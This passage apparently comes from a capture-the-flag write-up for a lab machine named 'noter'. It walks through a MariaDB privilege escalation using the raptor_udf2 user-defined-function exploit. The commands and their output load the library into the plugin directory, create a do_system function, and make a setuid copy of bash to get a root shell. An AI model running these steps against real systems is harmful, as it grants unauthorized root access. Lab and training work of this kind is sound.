 We need to load the shared library into the mysql plugins directory. Lets see where is it:
```bash
MariaDB [mysql]> show variables like 'plugin_dir';
+---------------+---------------------------------------------+
| Variable_name | Value                                       |
+---------------+---------------------------------------------+
| plugin_dir    | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
+---------------+---------------------------------------------+
```

Perfect, now we can follow the exploit directions to create a function that will load the library and execute code as the user running the mysql server, in our case, the `root` user:
```bash
MariaDB [mysql]> use mysql;
MariaDB [mysql]> create table foo(line blob);
MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
MariaDB [mysql]> select * from mysql.func;
MariaDB [mysql]> select do_system('id > /tmp/out; chown svc.svc /tmp/out');
MariaDB [mysql]> \! sh

$ cat /tmp/out
uid=0(root) gid=0(root) groups=0(root)
```

Here we proved that we have code execution as `root`, so lets make a copy of bash and give `+s` privileges so we can get a root shell.
```bash
MariaDB [mysql]> use mysql;
MariaDB [mysql]> create table foo(line blob);
MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
MariaDB [mysql]> select * from mysql.func;
MariaDB [mysql]> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');

+-----------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash') |
+-----------------------------------------------------------------+
|                                                               0 |
+-----------------------------------------------------------------+
MariaDB [mysql]> exit

svc@noter:/tmp$ ./rootbash -p
rootbash-5.0# id
uid=1001(svc) gid=1001(svc) euid=0(root) egid=0(root) groups=0(root),1001(svc)
```

We are root!